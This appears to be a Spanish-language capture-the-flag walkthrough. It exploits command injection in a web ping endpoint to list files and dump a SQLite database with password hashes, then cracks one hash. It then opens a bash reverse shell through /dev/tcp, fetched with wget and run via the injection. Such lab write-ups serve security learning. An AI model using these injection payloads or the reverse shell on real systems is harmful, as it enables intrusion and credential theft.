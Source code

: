 ```
## forma 1
curl 'http://10.10.31.190:8081/ping?ip=10.6.34.162;`ls`'  
ping: utech.db.sqlite: Name or service not known


## forma 2
curl 'http://10.10.31.190:8081/ping?ip=10.6.34.162%0als'
PING 10.6.34.162 (10.6.34.162) 56(84) bytes of data.
64 bytes from 10.6.34.162: icmp_seq=1 ttl=61 time=175 ms

--- 10.6.34.162 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 175.312/175.312/175.312/0.000 ms
index.js
node_modules
package.json
package-lock.json
start.sh
utech.db.sqlite


There is a database lying around, what is its filename?
utech.db.sqlite
```

```
curl 'http://10.10.31.190:8081/ping?ip=10.6.34.162;`cat%20utech.db.sqlite`'
���(r00tf357a0c52799563c7c7b76c1e7543a32)admin0d0ea5111e3c1def594c1684e3b9be84: Parameter string not correctly encoded

What is the first user's password hash?
f357a0c52799563c7c7b76c1e7543a32

https://crackstation.net/
n100906
```

- otra forma
```
cat shell.sh                                                                                                                        
/bin/bash -i >& /dev/tcp/10.6.34.162/8080 0>&1

>> en mi kali
python3 -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ..
10.6.34.162 - - [26/Sep/2024 00:27:39] "GET /shell.sh HTTP/1.1" 200 -

>> lo subo y e
curl http://10.10.111.236:8081/ping?ip=10.6.34.162%0awget%2010.6.34.162/shell.sh
curl http://10.10.111.236:8081/ping?ip=10.6.34.162%0abash%20./shell.sh



```
